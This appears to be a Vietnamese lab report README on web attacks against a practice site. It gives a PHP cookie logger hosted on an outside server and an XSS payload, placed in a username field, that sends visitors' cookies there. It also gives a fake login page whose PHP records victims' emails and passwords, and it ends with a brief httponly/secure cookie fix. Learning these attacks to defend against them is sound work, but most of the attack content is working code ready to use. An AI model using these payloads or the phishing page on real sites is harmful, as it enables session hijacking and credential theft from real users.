


Người thực hiện: Lê Trần Văn Chương
Ngày: 12/04/2022
Mục lục:
- [Host](#host)
- [XSS](#xss)
- [Phishing XSS](#phishing-xss)
- [HttpFlag và secure cho cookie](#httpflag-và-secure-cho-cookie)

## Host
- Host nhận cookie người dùng: https://php-bacsic.000webhostapp.com/index.php
- Host để attack: https://00bluec10.000webhostapp.com/index.php

## XSS

1. Thêm đoạn code sau vào host nhận cookie. Đoạn code này sẽ lấy cookie và ghi vào file `logs.txt`.

```php
<?php
$cookie = $_GET["cookie"];
$file = fopen('logs.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```

2. Thêm `<a onmouseover=\"document.location=\'https://php-bacsic.000webhostapp.com/index.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>` vào username và khi người dùng vào web và rê chuột vào chữ `XSSError` thì lực tức sẽ được chuyển qua trang host để lấy cookie người.


3. Kiểm tra lại file `logs.txt`


## Phishing XSS

1. Tạo 1 trang login giả để chèn vào web attack đây là link: https://php-bacsic.000webhostapp.com/fakeLogin.php


2. Trong trang đó ta chèn thêm vài dòng code php để có thể lấy dữ liệu người dùng và sau khi user nhấn vào login thì trả về index.
```php
<?php
if (isset($_POST['email'], $_POST['password'])) {
    $fp = fopen("logs.txt", 'a+');
    fwrite($fp, $_POST['email'] . ':' . $_POST['password'] . "\n");
    fclose($fp);
    exit('<script>window.open("https://00bluec10.000webhostapp.com/index.php","_top");</script>');
}
?>
```

3. Đây là dữ liệu lấy được


## HttpFlag và secure cho cookie
```php
<?php
setcookie('username', 'test', ['httponly' => true, 'secure' => true]);
?>
```